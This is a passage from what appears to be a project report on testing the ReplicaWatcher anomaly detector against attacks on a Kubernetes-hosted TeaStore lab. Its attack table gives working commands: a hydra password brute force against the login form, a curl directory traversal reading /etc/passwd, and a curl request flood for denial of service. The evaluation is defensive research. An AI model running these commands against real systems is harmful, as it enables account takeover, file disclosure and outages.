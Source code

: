 | Attack Type             | Reference CWE | Targeted Service   | Implementation |
|-------------------------|----------------|--------------------|----------------|
| **Brute force login**   | CWE-307        | Teastore-auth      | <code>hydra -l Testtt -P rockyou1.txt 192.168.122.199 -s 30080 http-post-form \<br>"/tools.descartes.teastore.webui/loginAction:username=^USER^&amp;password=^PASS^&amp;referer=http%3A%2F%2F192.168.122.199%3A30080%2F&amp;signin=Sign+in:F=302" \<br>-vV -t 4</code> |
| **Directory traversal** | CWE-022        | frontend           | <code>curl "http://&lt;teastore-ip&gt;:30080/tools.descartes.teastore.imageprovider/rest/image/../../../etc/passwd"</code> |
| **Denial of Service (DoS)** | CWE-400    | Teastore-WebUI     | <code>seq 1 1000 \| xargs -n1 -P100 curl -s \<br>"http://192.168.122.199:30080/tools.descartes.teastore.webui/rest/products" &gt; /dev/null</code> |



### ** 7.3.4 ReplicaWatcher Implementation**

Replicawatcher consists of two main components, one collection component used as part of daemonset that collects system calls in snapshots of 30 seconds. Another component is the analysis using Jaccard intersection to analyze system calls vector collected by the first component. We implemented a system of collection using cronjobs at the jumpbox to SSH into the worker nodes collecting snapshots of system calls that are collected by Sysdig.  In addition, the target pods to be tested throughout the attacks is frontend, therefore it needed to be scaled up to 4 replicas to compare pod’s behavior to another. And we modified the replicawatcher chisel to fix the filtering and enable the collection, below is an example of collected snapshot using Sysdig with replicawatcher chisel

![Repl](Images//Picture19.png)

System calls snapshot collected by sysdig


The anomaly detection component of Replicawatcher encodes the collected information of Sysdig into vectors then the Jaccard intersection is calculated to find which pod is behaving abnormally. We applied a directory traversal attack on the frontend service while the collection is running and the below had resulted of replicawatcher. 

![Repl](Images/Picture20.png)
